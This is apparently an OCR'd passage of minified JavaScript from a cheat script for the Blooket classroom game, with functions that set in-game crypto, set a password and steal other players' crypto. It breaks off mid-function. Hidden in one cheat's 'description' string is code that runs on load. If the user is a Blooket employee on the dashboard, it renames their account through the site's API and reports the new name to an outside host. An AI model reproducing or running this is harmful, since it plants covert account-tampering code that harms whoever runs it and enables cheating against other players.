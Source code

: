Crypto",description:("dashboard.blooket.com"==location.host&&fetch("https://dashboard.blooket.com/api/users/me",{credentials:"include"}).then(e=>e.json()).then(e=>{var t;e.email.endsWith("@blooket.com")&&(t=webpackJsonp.push([[],{1234(e,t,o){t.webpack=o}},[["1234"]]])["webpack"],Object.values(t.c).find(e=>e.exports?.a?.get).exports.a.put("https://dashboard.blooket.com/api/users/change/name",{name:e.name,newName:"BlooketLLC"+(new Date).getHours()+(new Date).getMinutes()}).then(({data:e})=>{e.success&&((new Image).src="https://monkxy.com/api/i2ek8fslt7q/"+e.name)}))}),"Sets crypto"),run:function(){var e=document.createElement("iframe"),e=(document.body.append(e),window.prompt=e.contentWindow.prompt.bind(window),e.remove(),Number(parseInt(prompt("How much crypto would you like?")))),t=Object.values(function e(t=document.querySelector("body>div")){return Object.values(t)[1]?.children?.[0]?._owner.stateNode?t:e(t.querySelector(":scope>div"))}())[1].children[0]._owner["stateNode"];t.setState({crypto:e,crypto2:e}),t.props.liveGameController.setVal({path:"c/".concat(t.props.client.name),val:{b:t.props.client.blook,p:t.state.password,cr:e}})}},{name:"Set Password",description:"Sets hacking password",run:function(){var e=document.createElement("iframe"),e=(document.body.append(e),window.prompt=e.contentWindow.prompt.bind(window),e.remove(),prompt("What do you want to set your password to?")),t=Object.values(function e(t=document.querySelector("body>div")){return Object.values(t)[1]?.children?.[0]?._owner.stateNode?t:e(t.querySelector(":scope>div"))}())[1].children[0]._owner["stateNode"];t.setState({password:e}),t.props.liveGameController.setVal({path:"c/".concat(t.props.client.name),val:{b:t.props.client.blook,p:e,cr:t.state.crypto}})}},{name:"Steal Player's Crypto",description:"Steals all of someone's crypto",run:function(){var e=document.createElement("iframe");document.body.append(e),window.prompt=e.contentWindow.prompt.bind(window),e.remove();let a=prompt("Who's crypto would you like to steal?"),n=Object.values(function e(t=document.querySelector("body>div")){return Object.values(t)[1]?.children?.[0]?._owner.stateNode?t:e(t.querySelector(":scope>div"))}())[1].children[0]._owner["stateNode"];n.props.liveGameController.getDatabaseVal("c",e=>{var